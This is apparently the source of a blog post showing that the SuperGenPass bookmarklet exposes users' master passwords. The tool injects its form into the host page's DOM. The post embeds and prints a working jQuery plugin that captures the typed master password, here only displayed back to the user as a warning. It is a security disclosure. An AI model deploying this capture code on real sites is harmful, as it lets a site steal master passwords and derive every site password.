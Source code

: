 ```yaml
---
title: SuperGenFail
tags:  []
layout: post
description: SuperGenPass considered harmful
comments: false
---
```


<style type="text/css">
form#supergenpass_test {
    height: auto;
    overflow: auto;
    padding-left: 20px;
    margin-bottom: 20px;
    }
    form#supergenpass_test div {
        clear: both;
        padding-bottom: 10px;
        }
    form#supergenpass_test label {
        width: 100px;
        float: left;
        font-size: 16px;
        line-height: 25px;
        }
    form#supergenpass_test input {
        width: 200px;
        padding: 2px;
        font-size: 16px;
        font-family: Helvetica, Arial, verdana;
        border: 1px solid #000;
        }
</style>

<script type="text/javascript">
(function($) {
    var eventName = 'masterPassword',
        genPassInput = '#gp2_pass_box input[type="password"]',
        genPassButton = '#gp2_pass_box input[type="button"]';
    $.event.special.masterPassword = {
        setup: function() {
            var elem = $(this),
                captureMasterPassword = function() {
                    elem.trigger(eventName, $(genPassInput).val());
                };
            $(genPassButton).live('click', captureMasterPassword);
            $(genPassInput).live('keydown', function(e) {
                if (e.keyCode === 13) { captureMasterPassword(e); }
            });
        }
    };
})(jQuery);

jQuery(function($){
    $(document).bind('masterPassword', function(e, data) {
        $('<div><em>Be safe, stop using SuperGenPass.  Your master password is: <strong>' + data +'</strong></em></div>')
            .hide()
            .appendTo($('#supergenpass_test'))
            .show(300);
    });        
});

</script>


[SuperGenPass](http://supergenpass.com/) is a popular password management tool.  The pitch:

> Instead of storing your passwords on your hard disk or online—where they are vulnerable to theft and data loss—SuperGenPass uses a hash algorithm to transform a master password into unique, complex passwords for the Web sites you visit. 

And this functionality is all bundled up in a bookmarklet.  Alice visits a host's login form, clicks her SuperGenPass bookmarklet, enters her master password, and her host's password field is instantly populated with a hash of the host's URL + her master password -- a long, unique, password that Alice never even has to know.  *Clever.*  Except,

### SuperGenPass is completely insecure.  

SuperGenPass presents a small master password form overlaid across the host's login page by injecting its form *into the DOM of the host page*.  So, when Alice is providing her master password, she's *crossing a trust boundary*.  The master password, which ideally is never transmitted to *any* party, becomes co-mingled with the host's untrusted data and scripts simply by being typed.  And of course, once the site has the master, it can be transmitted back to the host, or even other domains.  An XSS hole would allow an attacker to easily plant a master password collector.

### jQuery-based Attack

As of writing, SuperGenPass's [site](http://supergenpass.com/) neither identifies its creator nor provides a way to contact its maintainers, and its [mailing list](http://groups.google.com/group/supergenpass) has disappeared.  It seems reasonable to demonstrate just how easy it is to capture a master password.

Here's a quickie [jQuery](http://jquery.com/) plugin which uses the [Special Events API](http://benalman.com/news/2010/03/jquery-special-events/) to expose a new event named `masterPassword` which is raised after a user has entered a master password, passing along the password as event data.  It uses live event delegation to bind events raised on SuperGenPass form inputs which will be injected by the bookmarklet.

{% highlight javascript %}
(function($) {
    var eventName = 'masterPassword',
        genPassInput = '#gp2_pass_box input[type="password"]',
        genPassButton = '#gp2_pass_box input[type="button"]';
    $.event.special[eventName] = {
        setup: function() {
            var elem = $(this),
                captureMasterPassword = function() {
                    elem.trigger(eventName, $(genPassInput).val());
                };
            $(genPassButton).live('click', captureMasterPassword);
            $(genPassInput).live('keydown', function(e) {
                if (e.keyCode === 13) { captureMasterPassword(e); }
            });
        }
    };
})(jQuery);
{% endhighlight %}

A *friendly* site could use it for good:

{% highlight javascript %}
$(document).bind('masterPassword', function(e, data) {
    alert('Be safe, stop using SuperGenPass.  Your master password was ' + data);
});
{% endhighlight %}

So, let's try it out.  Grab the SuperGenPass [bookmarklet](http://supergenpass.com/), and then come back here and click it.  The mockup login form below will be automatically targeted.  

<form method="GET" action="/" id="supergenpass_test">
    <div>
        <label for="username">User Name</label><input type="text" name="username" />
    </div>
    <div>
        <label for="password">Password</label><input type="password" name="password" />
    </div>
</form>

### Wow, that's nuts. Who would use SuperGenPass?

Well, it's interesting.  SuperGenPass tends to be used and recommended exclusively within technical circles, by people who know the importance of strong passwords and have at least a vague notion of what hashing is.  I suspect the cleverness and technical elegance of the solution is precisely why it lives on, like a tickle in the mind.  

### Alternatives

Since the main vulnerability is a trust boundary violation, moving the password form out of the host's DOM could theoretically be enough.  Direct browser or OS integration could accomplish this, and [several](https://addons.mozilla.org/en-US/firefox/addon/52490/) [projects](http://github.com/gfxmonk/supergenpass) attempt to do just that, although I've never tried them.  And in the end, sometimes you can't beat the physical world for digital security.  

[Bruce Schneier](http://www.schneier.com/blog/archives/2005/06/write_down_your.html):

> Simply, people can no longer remember passwords good enough to reliably defend against dictionary attacks, and are much more secure if they choose a password too complicated to remember and then write it down. We're all good at securing small pieces of paper. I recommend that people write their passwords down on a small piece of paper, and keep it with their other valuable small pieces of paper: in their wallet.

Be careful out there.
